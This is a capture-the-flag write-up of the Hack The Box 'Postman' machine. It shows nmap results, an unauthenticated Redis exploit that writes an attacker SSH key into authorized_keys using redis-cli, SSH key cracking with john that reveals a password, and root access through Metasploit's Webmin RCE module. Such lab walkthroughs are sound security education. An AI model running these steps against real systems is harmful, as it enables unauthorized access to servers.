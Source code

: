 ```yaml
---
title:     "Hack The Box - Postman"
tags: [linux,easy,redis,john]
layout: post
categories: HackTheBox
---
```


![](/img/htb-postman/img8.png)

We are going to pwn Postman from Hack The Box. Postman is a easy level linux machine.
Take a cup of tea and let's get started.

Link : <https://www.hackthebox.eu/home/machines/profile/215>

## Enumeration

Lets Begin with our Initial Nmap Scan.

Nmap Scan Results:

```
PORT      STATE SERVICE
22/tcp    open  ssh
80/tcp    open  http
6379/tcp  open  redis
10000/tcp open  snet-sensor-mgmt


PORT      STATE SERVICE VERSION
22/tcp    open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 46:83:4f:f1:38:61:c0:1c:74:cb:b5:d1:4a:68:4d:77 (RSA)
|   256 2d:8d:27:d2:df:15:1a:31:53:05:fb:ff:f0:62:26:89 (ECDSA)
|_  256 ca:7c:82:aa:5a:d3:72:ca:8b:8a:38:3a:80:41:a0:45 (ED25519)
80/tcp    open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: The Cyber Geek's Personal Website
6379/tcp  open  redis   Redis key-value store 4.0.9
10000/tcp open  http    MiniServ 1.910 (Webmin httpd)
|_http-server-header: MiniServ/1.910
|_http-title: Site doesn't have a title (text/html; Charset=iso-8859-1).
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Aggressive OS guesses: Linux 3.2 - 4.9 (95%), Linux 3.1 (95%), Linux 3.2 (95%), AXIS 210A or 211 Network Camera (Linux 2.6.17) (94%), Linux 3.16 (93%), Linux 3.18 (93%), ASUS RT-N56U WAP (Linux 3.4) (93%), Oracle VM Server 3.4.2 (Linux 4.1) (93%), Android 4.1.1 (93%), Adtran 424RG FTTH gateway (92%)
No exact OS matches for host (test conditions non-ideal).
Network Distance: 2 hops
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```


Found that port 80 http is open, so a site must be running. 

![](/img/htb-postman/img13.png)

The site looks to be under construction.
The Only thing I got from webpage is email address at the bottom.

Tried DIRB to find out any sub-directories that may help.

![](/img/htb-postman/img17.png)

![](/img/htb-postman/img19.png)

Tried different wordlists with dirb but the results doesn't reveal any useful directories.
/upload had nothing useful.


Found out that the service “redis” is running on port 6379. 
Interestingly found a nse script for redis-info.

![](/img/htb-postman/img25.png)


## Exploiting Redis

Started reading about the redis in detail and to seehow it works. It is used as an
in-memory distributed database.
Also found this Redis Unauthorized Access Vulnerability that saved my life.
>https://medium.com/@Victor.Z.Zhu/redis-unauthorized-access-vulnerability-simulation-victor-zhu-ac7a71b2e

According to it,
Under certain conditions, if Redis runs with the root account (or not even), attackers can
write an SSH public key file to the root account, directly logging on to the victim server
through SSH. This may allow hackers to gain server privileges, delete or steal data, or
even lead to an encryption extortion, critically endangering normal business services.

Nice. I looked at its simulation and started doing the same process.

Also found another link with the same procedure,
>https://packetstormsecurity.com/files/134200/Redis-Remote-Command-Execution.html
These blogs saved my life. So I downloaded the redistools on my machine and started
doing the same steps.


First we generate the SSH KEYS with passphrase (90909090 for this case)

```
$ ssh-keygen -t rsa
```

![](/img/htb-postman/img44.png)

Remember, don't leave the passphrase empty. I tried with an empty passphrase and
encountered several problems, idk why. Keep it anything,just dont leave it empty.

Next, enter the .ssh folder. If you are root user,enter /.ssh, otherwise ~/.ssh, then copy
the private key into temp.txt. (or whatever.txt)

```
$ (echo -e "\n\n"; cat id_rsa.pub; echo -e "\n\n")> temp.txt
$ cat temp.txt (To Check the Key)
```

![](/img/htb-postman/img46.png)

So far we have generated a pair of keys, we will needto find a way to smuggle the
public key to the Redis server.
We are going to use redis-cli, the Redis command lineinterface, to send commands to
Redis and read the replies sent by the server directlyin the terminal.

```
$ cat temp.txt | redis-cli -h 10.10.10.160 -x setfok
```

Once Done, we have a key with our SSH key sneakedin! Let’s connect to the Redis
and play around its configuration. Use redis-cli toconnect to the Redis server again.
Take a look at the site and follow the same commands.

```
$ redis-cli -h 10.10.10.160
10.10.10.160:6379> get fok (key sent from previouscommand)
10.10.10.160:6379> CONFIG GET dir (Tell which directory you are in)
10.10.10.160:6379> CONFIG SET dir var/lib/redis/.ssh (set default directory of user redis)
10.10.10.160:6379> CONFIG SET dbfilename authorized_keys
10.10.10.160:6379> save (save the key)
```

![](/img/htb-postman/img51.png)

Let’s Try to Connect with SSH

Enter your passphrase and voila!

![](/img/htb-postman/img55.png)

TADA!!! Got a user “redis” shell. DAMN!

## Privilege Escalation

Ran to the /home file to find the user named “MATT”.I found the user.txt inside but
> PERMISSION DENIED!

Tried find the SUID Binaries to see if i could exploit them somehow.

![](/img/htb-postman/img61.png)


Tried everything, found the OS, Kernel, Distribution blah blah blah with the above
websites.

Ran LinEnum.sh to get more details.

>https://github.com/rebootuser/LinEnum/blob/master/LinEnum.sh

![](/img/htb-postman/img66.png)

Found this through the script,

![](/img/htb-postman/img67.png)

Checked the bash_history of user “redis” : (See something common)


![](/img/htb-postman/img70.png)

Found a backup of Some Private Key inside the /opt/as /opt/id_rsa.bak and copied to
my Machine. (named it user.hash)

![](/img/htb-postman/img72.png)

We convert this private-Key to John Readable Hash with /ssh2john.py so that it can be
cracked with a appropriate wordlist.

$ cd /usr/share/john
You can see lot of keys to john-hash converter python scripts. Use the ssh2john.py
$ ./ssh2john.py {Location of the saved hash} > MATT.hash
This will convert the private ssh key to john readable hash.
$ /usr/sbin/john --wordlist=/usr/share/wordlists/rockyou.txt MATT.hash

![](/img/htb-postman/img76.png)

YEAH!!! Found the user password for “Matt” to be “computer2008”

Login inside the User “Matt”


![](/img/htb-postman/img78.png)

Yeah, Found the User Hash.

Tears of joy.

Went back to the HTB Forums and found out this hint:
ROOT: As said, you know are able to use an exploit that you couldn't use before.

Went back to Metasploit for the Webmin Exploit I found earlier but that didn't work. So
Let’s try that :

![](/img/htb-postman/img81.png)

It’s the webmin_packageup_rce script. Fired it up and set the options.
Ran the script and voila!!!!

![](/img/htb-postman/img83.png)

It worked! Man I knew what i had to do!

![](/img/htb-postman/img85.png)

I got root!


